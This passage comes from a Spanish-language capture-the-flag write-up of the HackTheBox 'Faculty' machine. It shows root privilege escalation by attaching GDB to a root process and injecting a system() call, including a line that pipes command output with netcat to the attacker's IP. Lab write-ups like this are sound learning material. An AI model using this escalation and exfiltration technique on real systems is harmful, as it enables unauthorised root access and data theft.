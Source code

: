 Entonces acá entra en juego nuestra mente... Debemos jugar con algún (o algunos) proceso(s) indicando posibles explotaciones que aprovechen que esa task está siendo ejecutado por **root** ¿tiene sentido? Me gusta.

Dando vueltas por Internet retomamos el post de las capabilities y un apartado que nos pone alertas:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/faculty/480google_repo_capSYSptrace_gdbAbuse.png" style="width: 100%;"/>

> "If **GDB** is installed you can **debug a process from the host and make it call the** `system` **function**." ~ [PE - Linux Capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace).

Uhhhhhhhhhhhhhhhhhh, si logramos "debuggear" (ya vimos que si) procesos podemos apoyarnos de la función `system` para intentar ejecutar comandos en el sistema (que serán ejecutados por el **owner** del procesoooooooooo, o sea **root**). La cagaa es que dice necesitar otra **capability** que no hemos visto. Pero como estamos aquí pa probar cositas, juguemos con el proceso `1` a ver si logramos algo:

La inyección es sencilla con la función `system`:

```bash
call (void)system("COMANDO_A_EJECUTAR")
```

Probemos levantar un puerto en nuestro sistema (el **4433**) y enviarnos por ahí el resultado del comando `id`, así tal que así:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

```bash
call (void)system("id | nc 10.10.14.179 4433")
```

Si lo enviamos obtenemos:

```bash
No symbol "system" in current context.
```

Pues la función `system` no existe entre los posibles llamados del propio proceso. Pero eso fue impedimento, ya que teníamos más de 20 PIDs para probar (intente automatizarlo, pero nada, pura bulla), después de colocar esa línea en todos y cada uno de los procesos llegamos al PID (en mi captura, no necesariamente debemos tener los mismos) número `713` (que hace referencia a una tarea de **Python**), que al enviar la línea juguetona la respuesta es aún más juguetona:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/faculty/480bash_developerSH_gdbAbuse_systemIDandNC_done.png" style="width: 100%;"/>

AYAYAYAIII, que forma loca (pero con muuucho sentido) de vulnerar un sistema y ser **root**!! Te dejo la tarea de entablar una reverse shell y ponerla linda (:

Ya hemos terminado :P

Veamos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/faculty/480flags.png" style="width: 100%;"/>
